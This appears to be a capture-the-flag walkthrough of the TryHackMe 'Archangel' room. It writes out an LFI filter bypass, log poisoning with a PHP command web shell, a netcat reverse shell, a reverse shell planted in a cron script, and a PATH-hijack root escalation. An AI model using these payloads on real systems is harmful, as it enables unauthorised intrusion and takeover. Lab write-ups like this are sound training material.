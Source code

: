# Archangel Room - TryHackMe


### Initial Port-scan
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/nmap.png)

- There is a webserver on port 80, so ill directory bruteforce to see if i can find anything interesting.

![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/dir_busting.png)

- Looking at the Directory scan, theres a /flags folder. I knew this was too easy, when i clicked on the link inside the file, it links to a youtube video "rick-rolled". I searched through a bunch of other directories but nothing stood out.
--------------
- At the top of the page of the main site, we we can see another hostname, which is one of the questions THM was asking for. 
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/hostname.png)

- Now to be able to reach that site, we need to specify the address in our /etc/hosts file. Youll need sudo to edit it.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/hosts.png)

- After that we can just put in the host-name in the url and it will take us to that site, because the hostname can be resolved to a IP now
- We found the first flag right at the front page of the new site.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/flag1.png)

----------
- Ok since this is a completely new site lets start directory bruteforcing again with fereoxbuster.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/dir_newsite.png)

- So we found 2 folders: /Robots.txt and /test.php. Ill start with robots first.
- Inside the robots folder, its the other file we found thats disallowed. So lets take a look at /test.php

![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/testbutton.png)
- As soon as i press the button on the  /test.php page. It sends a get request querying a file: mrrobot.php
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/test-file.png)

- At this point im trying for LFI vulnerabilities. I tried to transverse directories using ../../../../etc/passwd but there was some sort of filter. So i quickly googled LFI bypasses and came across this github page of some great bypasses. 
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

### Testing for LFI
- I Tried many bypasses until i found the double slashes worked.  ..//..//..//..//..//..//..//..//etc//passwd
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/passwd.png)
- If we look at the source file using our LFI, we can find the second flag.
- I ran into some issues trying to display the contents with the double slashes ..// so i had to base64 encode it using this paylaod. Once you have the base64 string you can decode it wherever youd like.
- `http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`
--------------
- Now lets try to LFI the apache logs. 	/..//..//..//..//..//..//..//..//var//log//apache2//access.log
- Looks like we can, and we can see from the image its storing our user-agent "Mozilla...". This will be our attack vector
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/logs.png)
--------------
### RCE
- The user-agent is where we are going to put our payload
- `<?php system($_GET['cmd']); ?>` put this payload inside our user-agent, you can use curl, burpsuite, or whatever you prefer. Im using burpsuite for this example.
- to access the RCE you add `&cmd=` at the end of the URL. In this example im testing rce with `id`, but im also adding in a echo command with any string so i can easily find my results with a quick search directly on the page.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/rce_path.png)
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/rce.png)

- looks like everything works. Now for the reverse_shell.
- this will be our payload for our RCE to execute. (Make sure to start a netcat listener on your own IP and PORT that you specified in the payload. Mine will be on port 443)
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $YOUR_IP 443 >/tmp/f` 
- Important to note, you might run into the issue where the URL doesnt get processed properly and it might take you to google. You need to URL encode the payload, and specify the port the domain is on.
- `http://mafialive.thm:80/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var//log//apache2//access.log&cmd=m%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.9.100.95%209999%20%3E%2Ftmp%2Ff`

---------
- Now we have a shell. 
- To stabalize use `python3  -c   'import pty; pty.spawn("/bin/bash")'`


- While using linpeas to find ways to esculate privileges, theres an interesting script found in /opt.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/hello_world.png)
- Doing a bit more enumeration, we also find the script is being run every minute by cron with the user archangle.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/cron.png)

- We have write permissions on the file too, so lets put in a reverse_shell just like we previously did. Also dont forget to start another nc listerner on a different port 
- `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $YOUR_IP 6666 >/tmp/f" > helloworld.sh`
- Wait a minute, and you should get a shell when CRON executes it.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/arc.png)


- WoooO!, now we have upgraded to the user archangel. Time for more enumeration.
- looking inside archangel's home directory, inside /secret theres the second flag. Also there is a binary file "backup", owned by root that we have read and execute permissions on. 
- cat'ing the binary we see its running a cp command
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/binary.png)


- So lets create a malicous file named "cp" and put it into our /tmp directory
- `touch /tmp/cp`
- cd into the /tmp directory and `echo "/bin/bash" > cp`
- Now all we need to do is modify our $PATH, then execute the backup file.
- `export PATH=/tmp:$PATH`
- now cd back to the directory with our backup file and run it ./backup
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/root.png)
- WOooOO! 
- GO into the root directory to find the last flag



